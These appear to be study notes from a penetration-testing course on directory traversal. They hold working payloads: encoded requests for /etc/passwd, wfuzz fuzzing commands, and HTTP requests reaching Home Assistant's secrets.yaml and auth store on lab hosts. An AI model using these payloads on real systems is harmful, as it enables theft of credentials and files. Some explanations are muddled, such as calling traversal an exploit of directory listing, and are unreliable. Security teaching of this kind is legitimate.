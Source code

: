 ##### Directory Traversal

The command above enabled us to traverse outside of /home/kali and read the file contents of /etc/passwd by prefixing the location with two Traversal Strings ("../../").

Traversal strings are, in their simplest format, two dots followed by a slash.

When working with a Windows machine, we can specify both the "../" and "..\\" traversal strings. Windows considers these statements as equal and one in the same.

The most likely target file we'll encounter is C:\Windows\win.ini, which is similarly common as /etc/passwd on Linux.

By definition, any ASCII character can be URL encoded. However, we should familiarize ourselves more specifically with the %2f (forward slash "/"), %20 (single space " "), and %3D (equal sign "=").

A programmatic endpoint is an endpoint that, when visited, redirects you to a separate URI using the backend web technology's programmatic logic.

```
curl -v http://www.megacorpone.com/about.html/../index.html -o megacorp.txt

GET /files/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```
1
(Portswigger, 2021), https://portswigger.net/web-security/file-path-traversal ↩︎

2
(Wikipedia, 2021), https://en.wikipedia.org/wiki/URI_normalization ↩︎

3
(Curl.se, 2021), https://curl.se/docs/ ↩︎

4
(Megacorpone.com Offensive Security, 2021), https://www.Megacorpone.com ↩︎

5
(Tutorials Point, 2021), https://www.tutorialspoint.com/security_testing/encoding_and_decoding.htm ↩︎

6
(Oracle, 2021) https://docs.oracle.com/javaee/7/tutorial/websocket003.htm ↩︎


##### Suggestive parameters and programmming endpoints

```
GET /search/Hello%20World! HTTP/1.1

GET /admin/dashboard/manage/handler.aspx?file=ourFile.jpeg HTTP/1.1

```

###### Sample suggestive parameters

```
?file=
?f=
/file/someFile

?location=
?l=
/location/someLocation

search=
s=
/search/someSearch

?data=
?d=
/data/someData

?download=
?d=
/download/someFileData
```

https://www.Megacorpone.com/files, in which files is a programmatic endpoint of a web stack.

##### Absolute Path

```
/etc/group
```

###### Relative Path

```
From /home/kali directory
cat ../../etc/group
```
We can use ../../../etc/group to read a particular file, but we might also need to use ../../../../../../../../../../../../etc/group, depending on the distance of the file from rootfs

Suppose we encounter the following URL.

http://dirTravSandbox/image.php?image=logo.png

Using absolute pathing, the sample endpoint would appear much differently, as shown.

https://www.Megacorpone.com/index.php?image=/var/www/html/pub/images/someImage.jpg



###### Directory listing

It allows to browse directory

###### Directory Traversal

data exfiltration is one of the core differences between directory traversal and directory listing. Directory traversal exploits directory listing vulnerability.


###### Directory Traversal - Exploitation

http://dirTravSandbox/ is a Unix-based system, and inside of the web root there is a file called data.txt. To access this file, we'll provide the value /var/www/html/data.txt to the path parameter.

relativePathingVerbose.php will serve our purposes because the input for the path parameter has been intentionally poorly sanitized in an attempt to limit any exfiltrated data from the web-root. We can attempt to bypass this by providing traversal strings and moving backwards until we reach the /etc/passwd file.

Our automated attempts will only be as effective as our wordlist. We will be using /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt from the SecLists1 project during this Learning Module.


```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://dirTravSandbox:80/relativePathing.php?path=../../../../../../../../../../FUZZ

wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ

```

###### Home Assistant

```
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt http://homeassistant:8123/FUZZ

wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt http://homeassistant:8123/fontawesome/FUZZ

```

we'll now modify anything past /data/ to traverse out of the fas.js file's location on the target machine. We will move one directory at a time until we arrive at configuration.yaml.


```
GET /fontawesome/data/../../../secrets.yaml HTTP/1.1
Host: homeassistant:8123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

```
GET /fontawesome/data/../../../.storage/auth HTTP/1.1
Host: homeassistant:8123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

